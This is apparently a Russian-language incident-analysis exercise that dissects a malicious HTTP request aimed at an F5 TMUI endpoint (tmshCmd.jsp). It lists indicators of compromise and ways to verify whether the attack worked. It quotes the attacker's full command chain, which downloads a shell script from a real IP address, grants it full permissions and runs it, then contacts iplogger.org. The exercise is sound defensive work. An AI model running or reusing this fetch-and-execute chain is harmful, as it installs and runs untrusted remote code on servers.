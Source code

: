 # В файле task1.txt привёден текст HTTP-запроса.  
## 1. Опишите, что происходит (чего добиваются атакующие).  
В HTTP запросе пытаются реализовать удалённое выполнение команд (RCE):

Команды которые хотят выполнить:

wget http://136.144.41.3/igipdmcdmsklcmk/ohsitsvegawellrip.sh; chmod 777 ohsitsvegawellrip.sh; sh ohsitsvegawellrip.sh; wget https://iplogger.org

1) wget http://136.144.41.3/igipdmcdmsklcmk/ohsitsvegawellrip.sh - установка скрипта.
2) chmod 777 ohsitsvegawellrip.sh - выдача полных прав скрипту.
3) sh ohsitsvegawellrip.sh - выполнение скрипта.
4) wget https://iplogger.org - дополнительная загрузка ip логера для мониторинга и проведения доп. атак.

## 2. Выделите признаки, по которым понятно, что происходит атака.  
В ссылке присутствует /.. , это может указывать на обход механизма безопасности, такого как доступ к файлам.

В запросе устанавливается скрипт с неизвестного ip адреса по незащищенному соединению, потом этому скрипту выдаются ПОЛНЫЕ права (не только право на исполнение), далее он запускается.

После этого дополнительно устанавливается iplogger.

## 3. Выделите IoС'и, которые могут быть использованы для выявления подобной активности в будущем.  
136.144.41.3 - ip адрес с которого устанавливается вредоносный скрипт

Команды wget, chmod, и sh в запросах могут служить индикатором попыток удалённого выполнения вредоносных скриптов.

## 4. Укажите, каким образом можно удостовериться в том, удалось ли атакующим достигнуть того, чего они добивались этим запросом.   
Проверить логи веб-сервера на наличие успешных запросов к tmui/locallb/workspace/tmshCmd.jsp

Проверить наличие загруженного файла ohsitsvegawellrip.sh

Убедиться, что на сервере не запущены подозрительные процессы, которые могли быть инициированы этим скриптом.

Анализировать сетевой трафик на предмет исходящих соединений к IP-адресу 136.144.41.3

